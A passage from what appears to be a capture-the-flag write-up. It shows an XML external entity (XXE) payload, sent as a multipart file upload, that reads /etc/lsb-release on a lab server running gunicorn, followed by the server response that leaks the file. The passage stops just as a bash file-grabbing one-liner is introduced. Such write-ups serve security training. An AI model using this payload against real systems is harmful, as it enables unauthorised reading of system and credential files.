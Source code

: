 ```
-----------------------------1864243787215350191713873567
Content-Disposition: form-data; name="file"; filename="0xdf.xml"
Content-Type: text/xml

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar SYSTEM
  "file:///etc/lsb-release">
]>

<item>
<Author>
  &bar;
</Author>
<Subject>Testing</Subject>
<Content>This is a test</Content>
</item>
-----------------------------1864243787215350191713873567--

```

```

HTTP/1.1 200 OK
Server: gunicorn/19.7.1
Date: Mon, 04 Jun 2018 19:42:16 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 268

 PROCESSED BLOGPOST:
  Author:
  DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"

 Subject: Testing
 Content: This is a test
 URL for later reference: /uploads/0xdf.xml
 File path: /home/roosa/deploy/src

```

Now we have arbitrary file read on the box, as least as far as this user can read.

### Bash OneLiner to grab files

When I originally solved this box 4 months ago, I wrote a bash one-liner to allow me to quickly grab different files.
